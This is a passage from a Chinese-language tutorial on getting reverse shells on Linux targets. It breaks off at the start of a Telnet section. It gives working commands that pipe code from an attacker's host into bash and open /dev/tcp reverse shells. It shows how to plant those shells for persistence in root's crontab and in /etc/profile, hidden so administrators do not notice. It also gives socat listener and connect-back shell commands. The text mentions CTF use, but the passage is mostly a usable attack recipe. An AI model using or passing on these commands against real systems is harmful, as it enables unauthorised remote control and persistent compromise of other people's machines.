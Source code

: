 然后再目标机上执行如下，即可反弹shell：

```shell
curl 攻击方ip|bash
```

根据curl命令和Linux管道的作用，你不难理解这其中的原理。

注：Curl配合Bash反弹shell的方式在CTF题目中经常出现，curl IP|bash 中的IP可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

### **将反弹shell的命令写入定时任务**

我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 /var/spool/cron/[crontabs]/<username> 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

```shell
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/攻击方ip/2333 0>&1
#每隔一分钟，向攻击方的2333号端口发送shell
```

比如，当前用户名为root，我们就要写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu系列主机)

### **将反弹shell的命令写入/etc/profile文件**

将以下反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

```shell
/bin/bash -i >& /dev/tcp/ip/2333 0>&1 &
# 最后面那个&为的是防止管理员无法输入命令
```

当目标主机管理员远程连接该主机时，就会执行该命令，成功获得目标机的shell：

## **0x04 利用Socat反弹shell**

Socat是Linux 下一个多功能的网络工具，名字来由是”Socket CAT”，因此可以看出它是基于socket的，其功能与netcat类似，不过据说可以看做netcat的加强版，事实上的确也是如此。我这里只简单的介绍下怎么使用它开启监听和反弹shell,其他详细内容可以参见这里：

[SOCAT 简介](http://brieflyx.me/2015/linux-tools/socat-introduction/)

安装Socat的方法很简单：

•Ubuntu等可以直接使用 apt-get install socat 命令进行安装

也可以去官网下载源码包：http://www.dest-unreach.org/socat

**攻击机开启本地监听：**

```shell
socat TCP-LISTEN:2333 -或nc -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
socat tcp-connect:攻击方ip:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

## **0x05 利用Telnet反弹shell**
